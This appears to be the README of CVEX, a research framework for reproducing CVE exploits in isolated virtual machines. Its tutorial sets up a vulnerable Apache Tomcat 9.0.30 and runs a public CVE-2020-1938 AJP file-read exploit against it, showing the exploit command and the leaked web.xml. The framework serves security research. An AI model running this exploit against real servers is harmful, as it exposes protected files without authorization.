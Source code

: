 # CVEX: eXecutable CVEs

What is CVEX?

CVEX is a framework for the reproducible exploitation of CVE vulnerabilities:
- Provides blueprints of pre-made exploitation setups, pre-configured with metadata collection facilities (raw traffic, HTTP/S requests, system calls/API calls).
- Uses virtualization to instantiate the blueprint and automatically execute the attack, supporting live analysis of exploitation.
- Separates infrastructure from CVE-related configuration allowing for reuse of blueprints.
- Incentivizes contributors to share reproducible exploits.

Tech stack:
- Virtualization: Vagrant
- Installation and configuration: Ansible
- Network traffic collection: tcpdump
- HTTPS collection: mitmproxy
- Linux syscall collection: strace
- Windows API collection: Process Monitor

## Install

CVEX has been tested on Ubuntu 24.04, 22.04, and 20.04.

Create virtual environment (optional):
```
python3 -m venv venv
source venv/bin/activate
```

Install CVEX:
```
~/CVEX$ sudo apt update
~/CVEX$ sudo apt install git-lfs -y
~/CVEX$ git lfs pull
~/CVEX$ pip install -e .
```

Install Vagrant:
```
wget https://releases.hashicorp.com/vagrant/2.4.1/vagrant-2.4.1-1.x86_64.rpm
sudo apt install alien
sudo alien -i vagrant-2.4.1-1.x86_64.rpm
```

**Do not use** `apt install` to install Vagrant, because it installs an old version of Vagrant.

Install Ansible:
```
sudo apt-add-repository ppa:ansible/ansible
sudo apt update
sudo apt install ansible
```

Install VirtualBox (**Ubuntu 22.04**):
```
wget https://download.virtualbox.org/virtualbox/7.0.20/virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
sudo dpkg -i virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
wget https://download.virtualbox.org/virtualbox/7.0.20/Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
sudo vboxmanage extpack install Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
```
Refer to the VirtualBox [download](https://www.oracle.com/virtualization/technologies/vm/downloads/virtualbox-downloads.html) page to find the appropriate package of VirtualBox that suits your OS. If dpkg shows errors during installation, run this command to fix them:
```
sudo apt --fix-broken install
```

While in theory Vagrant should work with any VM provider, CVEX was tested only with VirtualBox.

## Run

Ensure that you have at least 22 GB of free disk space and 8 GB of RAM to run the PoC CVE-0000-00001. Execute it as follows:
```
~/CVEX$ cvex records/CVE-0000-00001
```

CVEX comes with a set of PoCs:
- [CVE-0000-00000](records/CVE-0000-00000): curl, executed on Windows, downloads a web-page from ngix, running on Ubuntu
- [CVE-0000-00001](records/CVE-0000-00001): curl, executed on Ubuntu, downloads a web-page from ngix, running on another Ubuntu
- [CVE-0000-00002](records/CVE-0000-00002): curl, executed on Ubuntu, downloads a web-page from ngix, running on Windows
- [CVE-0000-00003](records/CVE-0000-00003): curl, executed on Windows, downloads a web-page from ngix, running on another Windows

## Debug

1. Re-start CVEX.
2. Restart CVEX with the `-v` parameter (verbose logging).
3. Connect to the VM via SSH with the help of `vagrant ssh` command.
<details>
<summary>How to use "vagrant ssh"</summary>

```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2021-44228/ubuntu1
==> default: Restoring the snapshot 'CVE-2021-44228/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Thu Oct 10 06:33:32 AM UTC 2024

  System load:  1.0625             Users logged in:          0
  Usage of /:   15.2% of 30.34GB   IPv4 address for docker0: 172.17.0.1
  Memory usage: 22%                IPv4 address for eth0:    10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1:    192.168.56.4
  Processes:    155


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct  9 13:29:41 2024 from 10.0.2.2

vagrant@ubuntu:~$ 
```

</details>

Use VirtualBox GUI to manage VMs and snapshots.

## Create your own

<details>

<summary>Expand to see how to create your own CVEX record</summary>


Clone https://github.com/ucsb-seclab/CVEX-records.

Choose the right name for your CVEX record and create a new subfolder with this name inside `CVEX-records`. Let's imagine that our goal is to reproduce CVE-2020-1938 (Apache Tomcat AJP Arbitrary File Read/Include Vulnerability). Obvious choice for the folder name would be `CVE-2020-1938`.

Let's use the [ubuntu2204-ubuntu2204](blueprints/ubuntu2204-ubuntu2204) blueprint. Create the simplest `CVEX-records/CVE-2020-1938/cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
```

Run CVEX:
```
~/CVEX-records$ cvex CVE-2020-1938
```

CVEX will create the router VM and two Ubuntu 22.04 VMs:
```
2024-10-23 14:02:12,627 - INFO - [router] Initializing a new VM router at /home/john/.cvex/router...
2024-10-23 14:02:13,733 - INFO - [router] Starting the VM router...
2024-10-23 14:04:09,541 - INFO - [router] Creating snapshot 'clean' for VM router (192.168.56.2)...
2024-10-23 14:04:24,545 - INFO - [router] Retrieving SSH configuration of router...
2024-10-23 14:04:24,545 - INFO - [router] Inventory /home/john/.cvex/router/inventory.ini has been created
2024-10-23 14:04:24,545 - INFO - [router] Executing Ansible playbook /ll/sources/CVEX/ansible/router.yml...
2024-10-23 14:04:25,440 - INFO - [router] 
2024-10-23 14:04:25,440 - INFO - [router] PLAY [Router] ******************************************************************
2024-10-23 14:04:25,440 - INFO - [router] 
2024-10-23 14:04:25,440 - INFO - [router] TASK [Gathering Facts] *********************************************************
2024-10-23 14:04:29,337 - INFO - [router] [WARNING]: Platform linux on host router is using the discovered Python
2024-10-23 14:04:29,337 - INFO - [router] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:04:29,337 - INFO - [router] interpreter could change the meaning of that path. See
2024-10-23 14:04:29,337 - INFO - [router] https://docs.ansible.com/ansible-
2024-10-23 14:04:29,337 - INFO - [router] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:04:29,370 - INFO - [router] ok: [router]
2024-10-23 14:04:29,371 - INFO - [router] 
2024-10-23 14:04:29,371 - INFO - [router] TASK [Pull mitmproxy-10.3.1-linux-x86_64.tar.gz] *******************************
2024-10-23 14:04:50,650 - INFO - [router] changed: [router]
2024-10-23 14:04:50,650 - INFO - [router] 
2024-10-23 14:04:50,650 - INFO - [router] TASK [Run mitmdump] ************************************************************
2024-10-23 14:04:51,642 - INFO - [router] changed: [router]
2024-10-23 14:04:51,643 - INFO - [router] 
2024-10-23 14:04:51,643 - INFO - [router] TASK [Wait for ~/.mitmproxy] ***************************************************
2024-10-23 14:04:56,908 - INFO - [router] ok: [router]
2024-10-23 14:04:56,908 - INFO - [router] 
2024-10-23 14:04:56,908 - INFO - [router] TASK [Kill mitmdump] ***********************************************************
2024-10-23 14:04:57,573 - INFO - [router] changed: [router]
2024-10-23 14:04:57,573 - INFO - [router] 
2024-10-23 14:04:57,574 - INFO - [router] TASK [Copy certindex] **********************************************************
2024-10-23 14:04:59,498 - INFO - [router] changed: [router]
2024-10-23 14:04:59,498 - INFO - [router] 
2024-10-23 14:04:59,498 - INFO - [router] TASK [Copy default.cfg] ********************************************************
2024-10-23 14:05:01,188 - INFO - [router] changed: [router]
2024-10-23 14:05:01,188 - INFO - [router] 
2024-10-23 14:05:01,189 - INFO - [router] TASK [Generate CRL] ************************************************************
2024-10-23 14:05:01,826 - INFO - [router] changed: [router]
2024-10-23 14:05:01,826 - INFO - [router] 
2024-10-23 14:05:01,826 - INFO - [router] TASK [Convert CRL from PEM to DER] *********************************************
2024-10-23 14:05:02,430 - INFO - [router] changed: [router]
2024-10-23 14:05:02,431 - INFO - [router] 
2024-10-23 14:05:02,431 - INFO - [router] TASK [Fetch root.crl] **********************************************************
2024-10-23 14:05:03,198 - INFO - [router] changed: [router]
2024-10-23 14:05:03,198 - INFO - [router] 
2024-10-23 14:05:03,198 - INFO - [router] TASK [Fetch mitmproxy-ca-cert.cer] *********************************************
2024-10-23 14:05:03,933 - INFO - [router] changed: [router]
2024-10-23 14:05:03,933 - INFO - [router] 
2024-10-23 14:05:03,933 - INFO - [router] PLAY RECAP *********************************************************************
2024-10-23 14:05:03,933 - INFO - [router] router                     : ok=11   changed=9    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:05:03,933 - INFO - [router] 
2024-10-23 14:05:04,072 - INFO - [router] Creating snapshot 'router' for VM router (192.168.56.2)...
2024-10-23 14:05:14,799 - INFO - [ubuntu1] Initializing a new VM ubuntu1 at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1...
2024-10-23 14:05:17,209 - INFO - [ubuntu1] Starting the VM ubuntu1...
2024-10-23 14:07:26,896 - INFO - [ubuntu1] Creating snapshot 'clean' for VM ubuntu1 (192.168.56.3)...
2024-10-23 14:07:40,427 - INFO - [ubuntu1] Retrieving SSH configuration of ubuntu1...
2024-10-23 14:07:40,428 - INFO - [ubuntu1] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini has been created
2024-10-23 14:07:40,428 - INFO - [ubuntu1] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 14:07:41,369 - INFO - [ubuntu1] 
2024-10-23 14:07:41,369 - INFO - [ubuntu1] PLAY [Linux] *******************************************************************
2024-10-23 14:07:41,369 - INFO - [ubuntu1] 
2024-10-23 14:07:41,369 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 14:07:44,182 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 14:07:44,182 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:07:44,182 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 14:07:44,182 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 14:07:44,182 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:07:44,201 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 14:07:44,201 - INFO - [ubuntu1] 
2024-10-23 14:07:44,201 - INFO - [ubuntu1] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 14:07:45,707 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 14:07:45,707 - INFO - [ubuntu1] 
2024-10-23 14:07:45,707 - INFO - [ubuntu1] TASK [Run update-ca-certificates] **********************************************
2024-10-23 14:07:50,772 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 14:07:50,772 - INFO - [ubuntu1] 
2024-10-23 14:07:50,772 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 14:07:50,773 - INFO - [ubuntu1] ubuntu1                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:07:50,773 - INFO - [ubuntu1] 
2024-10-23 14:07:50,905 - INFO - [ubuntu1] Creating snapshot 'CVE-2020-1938/ubuntu1' for VM ubuntu1 (192.168.56.3)...
2024-10-23 14:07:59,288 - INFO - [ubuntu2] Initializing a new VM ubuntu2 at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2...
2024-10-23 14:08:00,935 - INFO - [ubuntu2] Starting the VM ubuntu2...
2024-10-23 14:09:55,140 - INFO - [ubuntu2] Creating snapshot 'clean' for VM ubuntu2 (192.168.56.4)...
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Retrieving SSH configuration of ubuntu2...
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini has been created
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 14:10:09,813 - INFO - [ubuntu2] 
2024-10-23 14:10:09,814 - INFO - [ubuntu2] PLAY [Linux] *******************************************************************
2024-10-23 14:10:09,814 - INFO - [ubuntu2] 
2024-10-23 14:10:09,814 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 14:10:12,545 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 14:10:12,545 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:10:12,545 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 14:10:12,545 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 14:10:12,545 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:10:12,566 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 14:10:12,566 - INFO - [ubuntu2] 
2024-10-23 14:10:12,567 - INFO - [ubuntu2] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 14:10:14,807 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 14:10:14,807 - INFO - [ubuntu2] 
2024-10-23 14:10:14,807 - INFO - [ubuntu2] TASK [Run update-ca-certificates] **********************************************
2024-10-23 14:10:19,573 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 14:10:19,573 - INFO - [ubuntu2] 
2024-10-23 14:10:19,573 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 14:10:19,574 - INFO - [ubuntu2] ubuntu2                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:10:19,574 - INFO - [ubuntu2] 
2024-10-23 14:10:19,717 - INFO - [ubuntu2] Creating snapshot 'CVE-2020-1938/ubuntu2' for VM ubuntu2 (192.168.56.4)...
2024-10-23 14:10:28,249 - INFO - [router] Executing 'ls /etc/netplan'...
2024-10-23 14:10:30,157 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:30,223 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:30,243 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:30,259 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:30,274 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:30,309 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:30,393 - INFO - [router] Executing 'sudo netplan apply'...
2024-10-23 14:10:32,602 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:32,686 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:32,797 - INFO - [ubuntu1] Executing 'ls /etc/netplan'...
2024-10-23 14:10:34,691 - INFO - [ubuntu1] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:34,768 - INFO - [ubuntu1] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:34,794 - INFO - [ubuntu1] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:34,821 - INFO - [ubuntu1] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:34,844 - INFO - [ubuntu1] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:34,890 - INFO - [ubuntu1] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:34,980 - INFO - [ubuntu1] Executing 'sudo netplan apply'...
2024-10-23 14:10:37,394 - INFO - [ubuntu1] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:37,470 - INFO - [ubuntu1] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:37,573 - INFO - [ubuntu1] Downloading /etc/hosts...
2024-10-23 14:10:37,627 - INFO - [ubuntu1] Uploading /tmp/hosts...
2024-10-23 14:10:37,643 - INFO - [ubuntu1] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 14:10:37,669 - INFO - [ubuntu2] Executing 'ls /etc/netplan'...
2024-10-23 14:10:39,056 - INFO - [ubuntu2] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:39,111 - INFO - [ubuntu2] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:39,132 - INFO - [ubuntu2] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:39,156 - INFO - [ubuntu2] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:39,175 - INFO - [ubuntu2] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:39,213 - INFO - [ubuntu2] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:39,294 - INFO - [ubuntu2] Executing 'sudo netplan apply'...
2024-10-23 14:10:41,243 - INFO - [ubuntu2] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:41,320 - INFO - [ubuntu2] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:41,437 - INFO - [ubuntu2] Downloading /etc/hosts...
2024-10-23 14:10:41,481 - INFO - [ubuntu2] Uploading /tmp/hosts...
2024-10-23 14:10:41,491 - INFO - [ubuntu2] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 14:10:41,530 - INFO - [router] Executing 'pkill mitmdump'...
2024-10-23 14:10:41,569 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-10-23 14:10:41,644 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-10-23 14:10:41,704 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-10-23 14:10:41,765 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-10-23 14:10:41,852 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-10-23 14:10:41,888 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-10-23 14:10:42,179 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-10-23 14:10:45,230 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-10-23 14:10:50,230 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-10-23 14:10:50,249 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
2024-10-23 14:10:50,259 - INFO - [router] Stopping VM router...
2024-10-23 14:11:04,799 - INFO - [ubuntu1] Stopping VM ubuntu1...
2024-10-23 14:11:19,848 - INFO - [ubuntu2] Stopping VM ubuntu2...
```

You will also see them in the VirtualBox GUI:
![CVEX VMs](img/ubuntu2204-ubuntu2204.png)

Whenever you need to experiment with the VMs, restore snapshots with `vagrant snapshot restore`:
```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2020-1938/ubuntu1
==> default: Forcing shutdown of VM...
==> default: Restoring the snapshot 'CVE-2020-1938/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2200
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/2/

~/.cvex/bento_ubuntu-22.04/202404.23.0/2$ vagrant snapshot restore CVE-2020-1938/ubuntu2
==> default: Forcing shutdown of VM...
==> default: Restoring the snapshot 'CVE-2020-1938/ubuntu2'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.
```

To perform administrative tasks, connect to the needed VM over SSH with `vagrant ssh`:
```
~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Wed Oct 23 12:20:56 PM UTC 2024

  System load:  0.14208984375      Processes:             142
  Usage of /:   12.0% of 30.34GB   Users logged in:       0
  Memory usage: 11%                IPv4 address for eth0: 10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1: 192.168.56.3


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct 23 12:07:40 2024 from 10.0.2.2

vagrant@ubuntu1:~$
```

The first step would be to install the vulnerable Apache Tomcat 9.0.30 on `ubuntu1`. You need to find the binaries and build the Ansible playbook `ubuntu1.yml` that installs this service. Create the following structure of the CVEX record folder:
```
~/CVEX-records$ tree CVE-2020-1938

CVE-2020-1938
├── cvex.yml
├── data
│   └── apache-tomcat-9.0.30.tar.gz
└── ubuntu1.yml
```

Now run the Ansible playbook on `ubuntu1` to see if it works:
```
~/CVEX-records$ ansible-playbook -i ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini CVE-2020-1938/ubuntu1.yml 

PLAY [Install Apache Tomcat vulnerable to AJP Arbitrary File Read/Include（CVE-2020-1938）] ***************************************************************************************************************

TASK [Gathering Facts] ************************************************************************************************************************************************************************************
[WARNING]: Platform linux on host ubuntu1 is using the discovered Python interpreter at /usr/bin/python3.10, but future installation of another Python interpreter could change the meaning of that path.
See https://docs.ansible.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information.
ok: [ubuntu1]

TASK [Update apt cache] ***********************************************************************************************************************************************************************************
ok: [ubuntu1]

TASK [Install dependencies (Java and utilities)] **********************************************************************************************************************************************************
ok: [ubuntu1] => (item=curl)
ok: [ubuntu1] => (item=wget)
ok: [ubuntu1] => (item=tar)
changed: [ubuntu1] => (item=openjdk-11-jre-headless)

TASK [Create tomcat group] ********************************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create tomcat user] *********************************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create installation directory for Tomcat] ***********************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Extract apache-tomcat-9.0.30.tar.gz] ****************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create symbolic link for Tomcat installation] *******************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Change ownership of the Tomcat directory] ***********************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Set environment variables for Tomcat] ***************************************************************************************************************************************************************
changed: [ubuntu1] => (item=CATALINA_HOME=/opt/tomcat/latest)
changed: [ubuntu1] => (item=JAVA_HOME=/usr/lib/jvm/java-11-openjdk-amd64)

TASK [Create systemd service for Tomcat] ******************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Reload systemd daemon] ******************************************************************************************************************************************************************************
ok: [ubuntu1]

TASK [Start and enable Apache Tomcat] *********************************************************************************************************************************************************************
changed: [ubuntu1]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu1                    : ok=13   changed=10   unreachable=0    failed=0    skipped=0    rescued=0    ignored=0   

```

Voilà, Apache Tomcat 9.0.30 has been installed on `ubuntu1`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
```

Next step is to run the exploit on `ubuntu2`. Let's use this exploit: https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi/. In the same manner, the Ansible playbook `ubuntu2.yml` was created to install the `CNVD-2020-10487-Tomcat-Ajp-lfi.py` exploit, and the file itself was put to the `data` folder. The updated tree of the CVEX record folder should look like this:
```
~/CVEX-records$ tree CVE-2020-1938

CVE-2020-1938
├── cvex.yml
├── data
│   ├── apache-tomcat-9.0.30.tar.gz
│   └── CNVD-2020-10487-Tomcat-Ajp-lfi.py
├── ubuntu1.yml
└── ubuntu2.yml
```

Now run the Ansible playbook on `ubuntu2` to see if it works:
```
~/CVEX-records$ ansible-playbook -i ~/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini CVE-2020-1938/ubuntu2.yml 

PLAY [Install the exploit for Apache Tomcat AJP Arbitrary File Read/Include Vulnerability（CVE-2020-1938）] ***********************************************************************************************

TASK [Gathering Facts] ************************************************************************************************************************************************************************************
[WARNING]: Platform linux on host ubuntu2 is using the discovered Python interpreter at /usr/bin/python3.10, but future installation of another Python interpreter could change the meaning of that path.
See https://docs.ansible.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information.
ok: [ubuntu2]

TASK [Update apt package index] ***************************************************************************************************************************************************************************
ok: [ubuntu2]

TASK [Install packages] ***********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Create /opt/exploit] ********************************************************************************************************************************************************************************
changed: [ubuntu2]

TASK [Copy CNVD-2020-10487-Tomcat-Ajp-lfi.py to /opt/exploit] *********************************************************************************************************************************************
changed: [ubuntu2]

PLAY RECAP ************************************************************************************************************************************************************************************************
ubuntu2                    : ok=5    changed=3    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0 
```

Great, the exploit has been copied to `ubuntu2`. Update `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
```

Let's see if the exploit works as expected. Connect to `ubuntu2` over SSH, and then run the exploit (knowing that `192.168.56.3` is the IP address of `ubuntu1`):
```
vagrant@ubuntu2:~$ python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py 192.168.56.3 -p 8009 -f WEB-INF/web.xml

Getting resource at ajp13://192.168.56.3:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

Great, the vulnerability was exploited successfully: we were able to read a protected file! Now add the `command` parameter to the `ubuntu2` section of `cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  command: "python2 /opt/exploit/CNVD-2020-10487-Tomcat-Ajp-lfi.py %ubuntu1% -p 8009 -f WEB-INF/web.xml"
```

Run it once again with the `-n` parameter that forces CVEX to delete previously created snapshots:
```
~/CVEX-records$ cvex CVE-2020-1938 -n

2024-10-23 15:46:56,016 - INFO - [router] Retrieving status of router...
2024-10-23 15:46:59,771 - INFO - [router] Retrieving snapshot list of router...
2024-10-23 15:47:02,330 - INFO - [router] Restoring VM router (192.168.56.2) to snapshot 'router'...
2024-10-23 15:47:32,103 - INFO - [ubuntu1] Looking for a VM with CVE-2020-1938/ubuntu1 snapshot...
2024-10-23 15:47:37,717 - INFO - [ubuntu1] Retrieving status of ubuntu1...
2024-10-23 15:47:42,577 - INFO - [ubuntu1] Retrieving snapshot list of ubuntu1...
